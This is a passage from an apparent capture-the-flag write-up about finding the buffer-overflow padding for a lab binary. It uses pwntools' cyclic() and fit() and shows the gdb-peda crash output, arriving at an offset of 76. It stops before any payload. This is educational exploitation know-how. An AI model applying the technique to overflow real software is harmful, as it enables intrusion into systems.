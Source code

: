 ## Getting the overflow padding
Now we get the padding we require for the buffer overflow. We do this by using `gdb-peda` and `pwntools`.
First we generate a pattern with `pwntools` using the `cyclic()` function:
```python
>>> from pwn import *
>>> cyclic(150)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma'
```
Then give the pattern as an input in `gdb-peda`:
```
$ gdb ./lab -q
Reading symbols from ./lab...(no debugging symbols found)...done.
gdb-peda$ r
Starting program: /home/qh/CTF/Own/pwn/lab/lab
Welcome to my labratory!
Feel free to use my gadgets...
If you can find them ;)
Main is at 0x565562d4
Enter your input: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma               

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd240 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma")
EBX: 0x61616172 ('raaa')
ECX: 0xf7f905c0 --> 0xfbad2288
EDX: 0xf7f9189c --> 0x0
ESI: 0xf7f90000 --> 0x1d9d6c
EDI: 0xf7f90000 --> 0x1d9d6c
EBP: 0x61616173 ('saaa')
ESP: 0xffffd290 ("uaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma")
EIP: 0x61616174 ('taaa')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x61616174
[------------------------------------stack-------------------------------------]
0000| 0xffffd290 ("uaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma")
0004| 0xffffd294 ("vaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma")
0008| 0xffffd298 ("waaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma")
0012| 0xffffd29c ("xaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma")
0016| 0xffffd2a0 ("yaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma")
0020| 0xffffd2a4 ("zaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma")
0024| 0xffffd2a8 ("baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma")
0028| 0xffffd2ac ("caabdaabeaabfaabgaabhaabiaabjaabkaablaabma")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x61616174 in ?? ()
gdb-peda$
```
The program segfaulted at the address: `0x61616174` which is `taaa` in ascii and is part of our pattern. Now we get the length of the pattern up until that part using the `fit()` function:
```
>>> len(fit({'taaa':''}))
76
```
So the length of the padding we need is 76.

